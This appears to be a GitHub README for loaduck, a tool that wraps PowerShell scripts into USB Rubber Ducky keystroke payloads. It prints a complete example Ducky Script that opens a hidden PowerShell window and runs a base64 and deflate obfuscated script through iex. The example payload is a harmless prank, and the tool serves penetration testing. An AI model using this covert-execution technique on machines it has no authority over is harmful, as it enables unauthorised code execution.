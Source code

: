 # loaduck

PowerShell script bootstrapper for the Hak5 USB Rubber Ducky.

Written in PowerShell.

Targets Windows 7 and Windows 10, YMMV otherwise.

## How

PowerShell files can be dragged on to loaduck.ps1 to generate a .ps1.ducky.txt
file that can be used on the ducky.

Or you can use a command like:

    powershell .\loaduck.ps1 [ps1 filename]

This will generate:

    [ps1 filename].ducky.txt

The wrapper script zips your source PowerShell into a single line, then
injects it in an (almost) invisible payload that's fired from Win-R.

### Example

For example, given a (really annoying) PowerShell script of:

```powershell
For ($i=0; $i -le 2; $i++) {
    start https://www.youtube.com/watch?v=dQw4w9WgXcQ
}
rundll32.exe user32.dll,LockWorkStation
```
The script will be encoded into the following Ducky Script:

```
DELAY 5000
GUI r
DELAY 250
ALT SPACE
STRING M
DOWN
REPEAT 40
ENTER
STRING powershell -w hidden iex '(Add-Type n -pas -m ''[DllImport(\"user32\")]public static extern int ShowWindow(int h,int n);'')::ShowWindow((gps -Id $pid).MainWindowHandle,0);Read-Host|iex'
ENTER
DELAY 1000
STRING sal n New-Object;iex $(n IO.StreamReader($(n IO.Compression.DeflateStream($(n IO.MemoryStream(,$([Convert]::FromBase64String('c8svUtBQybQ1sFZQyVTQzUlVMAKxtLU1Faq5FICguCSxqEQho6SkoNhKX7+8vFyvMr+0pDQpVS85P1e/PLEkOcO+zDYlsNyk3DI8PSI5kKuWq6g0LyUnx9hIL7UiVaG0OLUIyAQK6PjkJ2eH5xdlB5cklmTm53HxcgEA')))),[IO.Compression.CompressionMode]::Decompress)))).ReadToEnd();
ENTER
```

The long PowerShell script creates the hidden PowerShell window that listens
for keystrokes (our minified annoying script in this case) and then runs them
when it receives and Enter key.

## Compression script

Borrowed from https://github.com/samratashok/nishang - that file remains GPL
licensed.

Small modifications have been made to reduce the final script size - see
https://github.com/thisismyrobot/loaduck/compare/4bd150a...master#diff-d36e9afee0b578300581569656ccd2da
for those changes.
